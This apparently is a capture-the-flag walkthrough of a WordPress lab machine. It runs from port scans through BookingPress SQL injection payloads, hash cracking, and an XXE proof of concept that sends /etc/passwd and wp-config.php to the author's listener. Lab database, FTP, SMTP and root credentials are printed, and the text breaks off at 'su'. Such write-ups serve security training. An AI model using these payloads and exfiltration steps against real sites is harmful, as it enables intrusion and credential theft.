




## Port Scan
1. TCP Scan
```
sudo nmap -Pn 10.129.228.95 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-04 19:23 EST
Nmap scan report for 10.129.228.95
Host is up (0.077s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
```
2. UDP Scan
```
sudo nmap -Pn 10.129.228.95 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-04 19:23 EST
Nmap scan report for 10.129.228.95
Host is up (0.42s latency).
Not shown: 65522 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
7422/udp  closed unknown
23511/udp closed unknown
25026/udp closed unknown
30973/udp closed unknown
35630/udp closed unknown
44907/udp closed unknown
48514/udp closed unknown
48815/udp closed unknown
50390/udp closed unknown
52732/udp closed unknown
56784/udp closed unknown
61862/udp closed unknown
65046/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 14.30 seconds
```
3. Script and Version scan
```
sudo nmap -Pn 10.129.228.95 -sCV -p21,22,80 --min-rate 20000 -oN nmap/scriptVersionScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-04 19:24 EST
Stats: 0:01:32 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 19:26 (0:00:46 remaining)
Nmap scan report for 10.129.228.95
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP
1. FTP is very slow for some reason
2. Anonymous login is not allowed.
```
ftp 10.129.228.95
```
Output:
```
220 ProFTPD Server (Debian) [::ffff:10.129.228.95]
Name (10.129.228.95:kali): anonymous
331 Password required for anonymous
Password: 
530 Login incorrect.
```
## Web Application Research
1. Add this domain to `/etc/hosts`
```
10.129.228.95 metapress.htb
```
2. It is a Wordpress Site
	
3. Let's use WPScan
```
sudo wpscan --url http://metapress.htb/ --enumerate | tee  wpscan.txt
```
Output:
```
[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Passive Detection)
 |  - http://metapress.htb/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 |  - http://metapress.htb/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://metapress.htb/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://metapress.htb/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] manager
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
4. Directory fuzzing
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://metapress.htb/FUZZ -ic -o root_dir_fuzz.txt
```
5. Subdomain fuzzing
```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://metapress.htb -H "Host:FUZZ.metapress.htb"
```
- Nothing
6. WP Scan shows no plugins but I can see one from the Burp Suite history
```http
http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt
```
Output:
```
== Changelog ==
= 1.0.10 =
* Minor bug fixes and improvements
= 1.0.9 =
* Minor bug fixes
```
7. It is vulnerable to an [unauthenticated SQL Injection vulnerability, CVE-2022-0739](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/#:~:text=BookingPress%20%3C%201.0.,CVE%202022%2D0739%20%7C%20Plugin%20Vulnerabilities)
```http
POST /wp-admin/admin-ajax.php HTTP/1.1

Host: metapress.htb

action=bookingpress_front_get_category_services&_wpnonce=8a84dd7273&category_id=33&total_service=-7502)+UNION+ALL+SELECT+%40%40version,%40%40version_comment,%40%40version_compile_os,1,2,3,4,5,6--+-
```
Output:
```json
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```
8. Let's see if SQLMap can dump all tables
```
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=8a84dd7273&category_id=33&total_service=VULN*' --dbms mysql --risk=2 --level=5
```
## SQL Injection
1. Let's see what databases are available
```sql
-7502) UNION ALL SELECT group_concat(table_schema),1,2,1,2,3,4,5,6 FROM INFORMATION_SCHEMA.TABLES-- -
```
Payload:
```
action=bookingpress_front_get_category_services&_wpnonce=8a84dd7273&category_id=33&total_service=-7502)+UNION+ALL+SELECT+group_concat(table_schema),1,2,1,2,3,4,5,6+FROM+INFORMATION_SCHEMA.TABLES--+-
```
Output:
```
blog
information_schema
```
2. Time to leak table names
```
action=bookingpress_front_get_category_services&_wpnonce=8a84dd7273&category_id=33&total_service=-7502)+UNION+ALL+SELECT+GROUP_CONCAT(table_name),1,2,1,2,3,4,5,6+FROM+INFORMATION_SCHEMA.TABLES--+-
```
Output:
```
ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEYWORDS,KEY_CACHES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SQL_FUNCTIONS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_SYS_DATAFILES,GEOMETRY_COLUMNS,INNODB_SYS_TABLESTATS,SPATIAL_REF_SYS,INNODB_BUFFER_PAGE,INNODB_TRX,INNODB_CMP_PER_INDEX,INNODB_METRICS,INNODB_LOCK_WAITS,INNODB_CMP,THREAD_POOL_WAITS,INNODB_CMP_RESET,THREAD_POOL_QUEUES,TABLE_STATISTICS,INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,THREAD_POOL_GROUPS,INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,INNODB_CMPMEM_RESET,INNODB_FT_DEFAULT_STOPWORD,INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,INNODB_FT_CONFIG,USER_STATISTICS,INNODB_SYS_TABLESPACES,INNODB_SYS_VIRTUAL,INNODB_SYS_INDEXES,INNODB_SYS_SEMAPHORE_WAITS,INNODB_MUTEXES,user_variables,INNODB_TABLESPACES_ENCRYPTION,INNODB_FT_DELETED,THREAD_POOL_STATS,wp_options,wp_term_taxonomy,wp_bookingpress_servicesmeta,wp_commentmeta,wp_users,wp_bookingpress_customers_meta,wp_bookingpress_settings,wp_bookingpress_appointment_bookings,wp_bookingpress_customize_settings,wp_bookingpress_debug_payment_log,wp_bookingpress_services,wp_termmeta,wp_links,wp_bookingpress_entries,wp_bookingpress_categories,wp_bookingpress_customers,wp_bookingpress_notifications,wp_usermeta,wp_terms,wp_bookingpress_default_daysoff,wp_comments,wp_bookingpress_default_workhours,wp_postmeta,wp_bookingpress_form_fields,wp_bookingpress_payment_logs,wp_posts,wp_term_relationships
```
3. We can leak the password hashes
```
action=bookingpress_front_get_category_services&_wpnonce=8a84dd7273&category_id=33&total_service=-7502)+UNION+ALL+SELECT+GROUP_CONCAT(user_pass),1,2,1,2,3,4,5,6+FROM+blog.wp_users--+-
```
- Refer: https://codex.wordpress.org/Database_Description#Table:_wp_users
Output:
```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.,$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
```
4. To leak the email and usernames,
```
action=bookingpress_front_get_category_services&_wpnonce=8a84dd7273&category_id=33&total_service=-7502)+UNION+ALL+SELECT+GROUP_CONCAT(user_login),GROUP_CONCAT(user_email),2,1,2,3,4,5,6+FROM+blog.wp_users--+-
```
Output:
```
admin,manager
admin@metapress.htb,manager@metapress.htb
```
5. Let's try to crack the hashes
```
hashcat -a 0 -m 400 hashes /usr/share/wordlists/rockyou.txt 
```
Very interesting fact: The reason one of the hashes didn't work is because it is being escaped in the JSON response!! Remove the `\`
```
$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70 => $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```
Output:
```
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```
- Creds did not work with SSH and FTP
6. This is the current user
```
action=bookingpress_front_get_category_services&_wpnonce=8a84dd7273&category_id=33&total_service=-7502)+UNION+ALL+SELECT+user(),1,2,1,2,3,4,5,6--+-
```
Output:
```
blog@localhost
```
## Getting Shell
1. We can use the creds to log into `wp-admin`. However, we do not have the option to upload a plugin.
	
2. When we try to upload the a PHP Shell, we get this
	
3. This version of Wordpress is vulnerable to [CVE-2021-29447](https://github.com/0xRar/CVE-2021-29447-PoC/blob/main/PoC.py)
```
python3 PoC.py -l 10.10.16.35 -p 9999 -f /etc/passwd
```
Output:
```
    ╔═╗╦  ╦╔═╗
    ║  ╚╗╔╝║╣────2021-29447
    ╚═╝ ╚╝ ╚═╝
    Written By (Isa Ebrahim - 0xRar) on January, 2023                                                                                     

    ═══════════════════════════════════════════════════════════════════════════
    [*] Title: Wordpress XML parsing issue in the Media Library leading to XXE
    [*] Affected versions: Wordpress 5.6 - 5.7
    [*] Patched version: Wordpress 5.7.1
    [*] Installation version: PHP 8
    ═══════════════════════════════════════════════════════════════════════════
     
[+] payload.wav was created.
[+] evil.dtd was created.
[+] manually upload the payload.wav file to the Media Library.
[+] wait for the GET request.

```
4. We can upload the WAV file here:
	
5. After uploading, we get this
```
[Wed Feb  4 22:05:24 2026] 10.129.228.95:58328 Closing
[Wed Feb  4 22:05:25 2026] 10.129.228.95:58330 Accepted
[Wed Feb  4 22:05:25 2026] 10.129.228.95:58330 [200]: GET /evil.dtd
[Wed Feb  4 22:05:25 2026] 10.129.228.95:58330 Closing
[Wed Feb  4 22:05:25 2026] 10.129.228.95:58334 Accepted
[Wed Feb  4 22:05:25 2026] 10.129.228.95:58334 [404]: GET /?p=jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5mYtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYjQ+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw== - No such file or directory

```
6. To decode it, we will use 
```
cat decode.php 
<?php 
$a='jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5mYtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYjQ+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw==';
echo zlib_decode(base64_decode($a)); 
?>
```

```
php decode.php
root:x:0:0:root:/root:/bin/bash
<SNIP>
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```
- RCE confirmed!
7. We can get the web root from the nginx config
```
python3 PoC.py -l 10.10.16.35 -p 9999 -f /etc/nginx/sites-enabled/default 
```
- Wasted too much time trying to find the web root.
Output:
```nginx
server {

        listen 80;
        listen [::]:80;

        root /var/www/metapress.htb/blog;

        index index.php index.html;

        if ($http_host != "metapress.htb") {
                rewrite ^ http://metapress.htb/;
        }

        location / {
                try_files $uri $uri/ /index.php?$args;
        }
    
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php8.0-fpm.sock;
        }

        location ~* \.(js|css|png|jpg|jpeg|gif|ico|svg)$ {
                expires max;
                log_not_found off;
        }

}
```
8. We can get the `wp-config.php` this way
```sh
python3 PoC.py -l 10.10.16.35 -p 9999 -f /var/www/metapress.htb/blog/wp-config.php
```
Output:
```php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );
```
## FTP
1. We can use `metapress.htb:9NYS_ii@FyL_p5M2NvJ` to login
2. There is an interesting file. `send_email.php`
```php
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;                                   

$mail->From = "jnelson@metapress.htb";
$mail->FromName = "James Nelson";

$mail->addAddress("info@metapress.htb");

```
- We can use this address to SSH into the machine.
## Shell as jnelson
1. Sudo privileges
```
 sudo -l
Sorry, user jnelson may not run sudo on meta2.
```
2. Group info
```
groups
jnelson
```
3. ID
```
id
uid=1000(jnelson) gid=1000(jnelson) groups=1000(jnelson)
```
4. Nothing interesting with `/etc/group`
```
systemd-network:x:102:
systemd-resolve:x:103:
input:x:104:
kvm:x:105:
render:x:106:
crontab:x:107:
netdev:x:108:
messagebus:x:109:
ssh:x:110:
jnelson:x:1000:
systemd-timesync:x:999:
systemd-coredump:x:998:
mysql:x:111:
```
5. Environment enumeration
```
env
SHELL=/bin/bash
PWD=/home/jnelson
LOGNAME=jnelson
XDG_SESSION_TYPE=tty
MOTD_SHOWN=pam
HOME=/home/jnelson
LANG=en_US.UTF-8
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.webp=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
SSH_CONNECTION=10.10.16.35 49808 10.129.255.232 22
XDG_SESSION_CLASS=user
TERM=tmux-256color
USER=jnelson
SHLVL=1
XDG_SESSION_ID=124
XDG_RUNTIME_DIR=/run/user/1000
SSH_CLIENT=10.10.16.35 49808 22
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SSH_TTY=/dev/pts/0
_=/usr/bin/env
```
6. OS Info
```
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```
7. Open ports
```
 ss -tlnp
```
Output:
```
State           Recv-Q          Send-Q                   Local Address:Port                   Peer Address:Port          Process          
LISTEN          0               80                           127.0.0.1:3306                        0.0.0.0:*                              
LISTEN          0               511                            0.0.0.0:80                          0.0.0.0:*                              
LISTEN          0               128                            0.0.0.0:22                          0.0.0.0:*                              
LISTEN          0               511                               [::]:80                             [::]:*                              
LISTEN          0               128                                  *:21                                *:*                              
LISTEN          0               128                               [::]:22                             [::]:*  
```
- We can try to access the local database
8. There is a file called `~/.passpie/ssh/root.pass`
```
cat root.pass
comment: ''
fullname: root@ssh
login: root
modified: 2022-06-26 08:58:15.621572
name: ssh
password: '-----BEGIN PGP MESSAGE-----


  hQEOA6I+wl+LXYMaEAP/T8AlYP9z05SEST+Wjz7+IB92uDPM1RktAsVoBtd3jhr2

  nAfK00HJ/hMzSrm4hDd8JyoLZsEGYphvuKBfLUFSxFY2rjW0R3ggZoaI1lwiy/Km

  yG2DF3W+jy8qdzqhIK/15zX5RUOA5MGmRjuxdco/0xWvmfzwRq9HgDxOJ7q1J2ED

  /2GI+i+Gl+Hp4LKHLv5mMmH5TZyKbgbOL6TtKfwyxRcZk8K2xl96c3ZGknZ4a0Gf

  iMuXooTuFeyHd9aRnNHRV9AQB2Vlg8agp3tbUV+8y7szGHkEqFghOU18TeEDfdRg

  krndoGVhaMNm1OFek5i1bSsET/L4p4yqIwNODldTh7iB0ksB/8PHPURMNuGqmeKw

  mboS7xLImNIVyRLwV80T0HQ+LegRXn1jNnx6XIjOZRo08kiqzV2NaGGlpOlNr3Sr

  lpF0RatbxQGWBks5F3o=

  =uh1B

  -----END PGP MESSAGE-----

  '
```
9. Let me try to crack the hash
```
gpg2john tmp > hash
```
Output:
```
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::tmp
```
To crack it with john the ripper,
```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
Output:
```
blink182         (Passpie)
```
10. We can export the passwords to plaintext. (Because the clipboard option did not work for me, maybe because I am using SSH?)
```
passpie export passwords.db
Passphrase: 
```
Output:
```
cat passwords.db 
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```
11. We can now change usernames to root
```
su
```
Output:
```
